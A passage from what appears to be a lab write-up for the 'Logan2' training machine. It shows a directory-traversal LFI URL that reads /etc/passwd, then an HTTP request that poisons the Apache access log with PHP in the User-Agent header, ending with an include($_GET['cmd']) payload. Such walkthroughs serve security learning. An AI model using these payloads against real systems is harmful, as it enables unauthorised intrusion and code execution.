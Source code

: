 ```bash
[13:58:42] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/10.0.2.69'
```
{: .nolineno}

I got this email from this users table and that gives me a domain name , Lets set the domain as `newsitelogan.logan.hmv` in hosts file →

![Untitled](Logan2/Untitled%205.png)

I checked its source code and it indicated this path →

![Untitled](Logan2/Untitled%206.png)

I can able to get the LFI from directory traversal and got `/etc/passwd` file →

```bash
http://newsitelogan.logan.hmv/photos-website-logan.php?photo=../../../../../etc/passwd
```
{: .nolineno}

![Untitled](Logan2/Untitled%207.png)

While accessing apache2 logs I get this message →

![Untitled](Logan2/Untitled%208.png)

If the Logs are cleared every minutes , then there is no option for system command execution because it will get deleted every minute so , lets try to see the phpinfo() part →

I used this User-Agent value to get the `phpinfo()` page : 

```bash
GET /photos-website-logan.php?photo=../../../../../var/log/apache2/access.log HTTP/1.1
Host: newsitelogan.logan.hmv
User-Agent: <?php echo phpinfo() ?>
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: close
Upgrade-Insecure-Requests: 1
```
{: .nolineno}

![Untitled](Logan2/Untitled%209.png)

> Now I see the disable_fuction that can not be used while pentesting so lets use different functions like `include()` , `file_get_contents()` like these functions and many others →
>
>Lets include a parameter `cmd` that will work similar to the parameter of `photo` →
{: .prompt-info }

```bash
User-Agent: <?php include($_GET['cmd']); ?>
```
{: .nolineno}
